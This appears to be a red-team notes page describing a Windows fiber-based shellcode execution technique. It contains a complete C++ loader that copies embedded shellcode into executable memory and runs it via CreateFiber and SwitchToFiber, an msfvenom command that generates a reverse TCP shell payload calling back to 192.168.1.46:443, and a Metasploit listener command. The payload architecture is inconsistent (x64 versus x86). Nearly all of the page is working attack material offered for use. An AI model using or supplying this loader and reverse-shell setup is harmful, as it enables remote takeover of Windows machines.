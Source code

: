 # FIBERS

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them. 

### Technique

* Convert the main thread to a fiber. This is required, because only one fiber can schedule another fiber.
* Write shellcode to some memory location and make it executable
* Create a new fiber that points to the shellcode location - this is the fiber we will be scheduling from the fiber we got in step 1 when converting the main thread to a fiber.
* Schedule the newly created fiber that points to our shellcode
* The fiber gets scheduled and shellcode executes

#### fibers.cpp

```cpp
#include <Windows.h>
 
int main()
{
// convert main thread to fiber
PVOID mainFiber = ConvertThreadToFiber(NULL);
 
unsigned char shellcode[] = "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
 
PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(shellcodeLocation, shellcode, sizeof shellcode);
 
// create a fiber that will execute the shellcode
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
 
// manually schedule the fiber that will execute our shellcode
SwitchToFiber(shellcodeFiber);
 
return 0;
}
```

### Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
```

### Listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

Tips : run on x86 

